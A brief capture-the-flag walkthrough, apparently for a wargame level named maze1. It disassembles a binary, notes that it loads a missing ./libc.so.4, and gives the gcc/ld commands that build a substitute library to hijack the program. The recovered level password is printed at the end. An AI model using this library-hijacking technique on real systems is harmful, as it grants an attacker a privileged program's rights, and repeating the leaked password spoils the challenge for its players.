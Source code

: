 
Dump of assembler code for function main:
```assembly
   0x0804849b <+0>:	push   %ebp
   0x0804849c <+1>:	mov    %esp,%ebp
   0x0804849e <+3>:	push   $0x8048540
   0x080484a3 <+8>:	call   0x8048380 <puts@plt>
   0x080484a8 <+13>:	add    $0x4,%esp
   0x080484ab <+16>:	mov    $0x0,%eax
   0x080484b0 <+21>:	leave  
   0x080484b1 <+22>:	ret    
```
End of assembler dump.

running this gets us the error: error while loading shared libraries: ./libc.so.4: cannot open shared object file: No such file or directory

so, we can use library function hijacking...

file lib.c included

run:
```sh
gcc -m32 -fPIC -c lib.c -o libc.o
gcc -m32 -shared -Wl,-soname,libc.so.4 -o libc.so.4 libc.o
/maze/maze1
```

or run:
```sh
gcc -m32 -fPIC -c lib.c -o libc.o
ld -shared -m elf_i386 -o libc.so.4 libc.o -ldl
/maze/maze1
```

we get: fooghihahr


